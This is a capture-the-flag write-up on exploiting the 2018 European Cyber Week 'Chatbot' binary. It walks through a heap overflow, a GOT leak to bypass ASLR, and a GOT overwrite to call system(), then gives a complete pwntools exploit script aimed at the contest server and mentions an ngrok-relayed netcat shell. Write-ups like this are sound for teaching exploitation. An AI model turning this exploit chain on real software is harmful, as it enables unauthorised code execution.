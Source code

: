 # [European Cyber Week] - Chatbot


## Find the vulnerability

To begin with, I just played with the binary, trying to find bugs in it... After a few seconds I found this:


![](/lib/images/writeups/2018_ecw/chatbot/segfault1.png) 


Ok, maybe there is something here, let's open IDA :D (I hate it).


![](/lib/images/writeups//2018_ecw/chatbot/vulnerability.png) 


* Framed in red: A few `malloc` declaration.
* Purple highlight: `nickname` variable.
* Green highlight: `chatbot` variable.

According to the previous picture, we can assume that the heap looks like this:


![](/lib/images/writeups//2018_ecw/chatbot/heap_chatbot.png) 


Ok, so we saw that the program crashes when I enter too many bytes, let's see how many it takes:


![](/lib/images/writeups//2018_ecw/chatbot/offset.png) 


* Framed in purple: Generation of the segfault.
* Framed in red: Offset determination.

If we try to overflow 16 bytes after the nickname, we're here in the heap:


![](/lib/images/writeups//2018_ecw/chatbot/overflow1.png) 


## Read everywhere

Now, let's try to display an internal string of the binary as botname!
I decided to take this one:


![](/lib/images/writeups//2018_ecw/chatbot/ida_str_yo.png) 


Poc:


![](/lib/images/writeups//2018_ecw/chatbot/poc_readeverywhere.png) 


## Hypothesis

Ok so now we have something really great. What would happened if I can overwrite a GOT address with the address of the system() function? It would look like this:


![](/lib/images/writeups//2018_ecw/chatbot/hypothesis.png) 


## Exploit

Let's exploit it :)

### Bypass ASLR

I need to find a leak in one the libc functions in order to find the libc base address. Then I'll be able to find the offset between the base address and the system() function.

#### Leak the __libc_start_main address

There is a well-known leak in the `__libc_start_main` function in the GOT. We can extract the adress of this function:


![](/lib/images/writeups//2018_ecw/chatbot/start_main_libc.png) 


#### Calculate Libc base address

You will need to display `/proc/[PID of Chatbot]/maps` to get the libc base address and calculate the offset:

```bash
$ ps -A | grep chat
32576 pts/7    00:00:00 chatbot

$ cat /proc/32576/maps
[...]
f7dda000-f7f87000 r-xp 00000000 fd:00 4456457                            /lib32/libc-2.23.so
f7f87000-f7f88000 ---p 001ad000 fd:00 4456457                            /lib32/libc-2.23.so
f7f88000-f7f8a000 r--p 001ad000 fd:00 4456457                            /lib32/libc-2.23.so
f7f8a000-f7f8b000 rw-p 001af000 fd:00 4456457                            /lib32/libc-2.23.so
[...]
```

> Which one of the displayed libc do we need to choose ?

You need to know the system() function address. So your libc base needs to be executable because all the functions in a binary are executable, right ? We can see that only the first one `0xf7dda000` have this permission.


![](/lib/images/writeups//2018_ecw/chatbot/aslr_bypassed.png) 


* Framed in red: In the center, you can see the offset determination. On the right, there is the calculation of the libc base address.
* Framed in yellow: Top right, our new libc base address (because I restarted the chatbot binary, the ASLR randomized the addresses). On the left, you can check our substraction, it looks like it works :)

Another tip, the libc is mapped on memory page, so if after your calculation you have an address that ends with `000` it sounds good. The memory pages are 4Kb long, so `0x1000` in hex.

### System address

We have our libc base address, now we have to find the address of the `system()` function.


![](/lib/images/writeups//2018_ecw/chatbot/systemaddre.png) 


* Framed in red: System address determination.
* Framed in yellow: Little addition.
* Framed in cyan: Check the system address, it looks like it works :)

### Final local exploit

At this point, we have everything we need to exploit the binary and get a shell:


![](/lib/images/writeups//2018_ecw/chatbot/local_exploit.png) 


![](https://media.giphy.com/media/yoJC2GnSClbPOkV0eA/giphy.gif)

## Flag

As we can see, we don't have any return of our function, so I use a little binary called `ngrok` to get a netcat on my laptop (without opening ports).

> https://ngrok.com/

And then, the graal:


![](/lib/images/writeups//2018_ecw/chatbot/flag.png) 

### Complete exploit code:

```python
#!/usr/bin/python2

from pwn import *

#ip = '127.0.0.1'
ip = '54.36.205.82'

addr_yoPython = 0x08049931
addr_libcStartMain = 0x0804C03C
addr_strlengot = 0x0804C038

c = remote(ip, 22000)
print(c.recv(4069))
c.sendline("nickname")
print(c.recv(4096))
#c.interactive()
c.sendline('A'*16+p32(addr_libcStartMain))
c.sendline("help")
rawleak = c.recvuntil("I")
addr_startmain = rawleak.split('\x00')[5][:4] # Had to change my split member from 4 to 5 don't know why
print('Addr start_main: 0x%x' % u32(addr_startmain))
c.recv(4096)
addr_baselibc = u32(addr_startmain) - 0x18540
print('Addr base libc: 0x%x' % addr_baselibc)
addr_system = addr_baselibc + 0x3a940
print('System address: 0x%x' % addr_system)
c.sendline("nickname")
c.recv(4096)
c.sendline('A'*16+p32(addr_strlengot))
c.recv(4096)
c.sendline("botname")
c.recv(4096)
c.sendline(p32(addr_system))
c.interactive()
```
